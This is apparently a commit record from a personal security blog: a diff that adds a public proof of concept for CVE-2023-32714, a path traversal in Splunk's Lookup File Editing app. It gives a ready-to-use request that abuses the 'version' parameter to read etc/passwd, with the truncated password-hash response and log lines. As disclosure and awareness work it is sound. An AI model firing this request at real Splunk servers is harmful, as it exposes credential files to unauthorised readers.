

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md, in a window 1280 px wide. Shown: the whole page at 81% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update 2023-06-08-CVE-2023-32714_SPLUNK_PoC.md
public disclosure of my PoC exploit

````diff
--- a/_posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md
+++ b/_posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md
@@ -1,31 +1,59 @@
 ---
 layout: post
 title:  "CVE-2023-32714 Splunk App for Lookup File Editing. PoC for path traversal"
-datetime: 2023-06-08 21:45:00 MEST
-last_modified_at: 2023-06-08 21:45:00 MEST
+datetime: 2023-06-19 23:05:00 MEST
+last_modified_at: 2023-06-19 23:05:00 MEST
 author: 'psytester'
 ---
 
-The proof of concept will be published in some days, since CVE-2023-32714 is too fresh.
+This time I have analyzed the vulnerability of [CVE-2023-32714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32714) Path Traversal in Splunk App for Lookup File Editing.<br>
+I checked the vulnerability how a (low-privileged) Splunk user can, if this App is installed, do a path traversal.<br>
 
-~~This time, my company does not use this app, but~~ I checked the vulnerability because I like such simple things
-and we need more security awareness in terms of faster installation of updates.<br>
-Internally I started the game "security incident threat handling & response".
-
-I analyzed this vulnerability [CVE-2023-32714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32714) and here we go.
-
-
-Full PoC comes later, stay tuned.
-
-In short
+Taking a diff of App version 3.6.0 and 4.0.1 the `__init__.py` shows a new section
 ```
-http://splunkhost:8000/......lookup_file=...&../../../../../../../../etc/passwd&.......
-
-06/08/2023 09:38:01 PM +0200 CEST INFO Resolved lookup file, path=/opt/splunk-9.0.3/etc/passwd
-06/08/2023 09:38:01 PM +0200 CEST INFO Size of lookup file determined, file_size=164, path=/opt/splunk-9.0.3/etc/passwd
-06/08/2023 09:38:01 PM +0200 CEST INFO Loading lookup file from path=/opt/splunk-9.0.3/etc/passwd
+        if version is not None:
+            version = os.path.basename(version)
 ```
 
+ok, let's dig deeper, start the App http://splunkserver:8000/en-US/app/lookup_editor/lookup_list
+
+In App Lookup File Editing you can see a lot of predefined files like `examples.csv` or for a normal user read only files like `registered_users`<br>
+or you can create a new entry by `Create a New Lookup` button.<br>
+If you change the content, you will create a new version of the file and you can go back by the button `Revert to a previous version` and its drop down list.
+
+You guess what comes next
+
+If the lookup_file is at least present, the namespace/ lookup_type and owner needs to match, we try to load an `older version` of the file ;-)
+```
+lookup_contents?\
+lookup_file=examples.csv  (not the query 'lookup')
+&namespace=splunk-dashboard-studio
+&lookup_type=csv
+&version=../../../../../../../../etc/passwd
+&owner=nobody
+```
+
+Trigger the path traversal
+```
+http://vmu2004:8000/en-US/splunkd/__raw/services/data/lookup_edit/lookup_contents?lookup_file=examples.csv&namespace=splunk-dashboard-studio&lookup_type=csv&version=../../../../../../../../etc/passwd&owner=nobody
+```
+
+Response:
+```
+[[":admin:$6$xFG4uO8RpRr......::Administrator:admin::::19467"], [":user:$6$ZbdM6GA7kO........:::user::::19527"]]
+```
+
+```
+less /opt/splunk/var/log/splunk/lookup_editor_rest_handler.log
+
+06/19/2023 10:38:16 PM +0200 CEST INFO Resolved lookup file, path=/opt/splunk-9.0.3/etc/passwd
+06/19/2023 10:38:16 PM +0200 CEST INFO Size of lookup file determined, file_size=293, path=/opt/splunk-9.0.3/etc/passwd
+06/19/2023 10:38:16 PM +0200 CEST INFO Loading lookup file from path=/opt/splunk-9.0.3/etc/passwd
+```
+
+Company internal I started the game "security incident threat handling & response". I like such "simple" things because we need more eye opener for security awareness in terms of faster installation of updates.<br>
+Splunk was already updated to 9.0.5, but the App was forgotten :-/<br>
+Reported to my IT at 22:00, update next day at 11:00. I was happy to lose the "game" because I thought it would last much longer.<br>
 
 Thank you for reading. The CVE is not my credit, but the work on the PoC is powered by psytester, this post was only for my private fun. ;-)
 
````
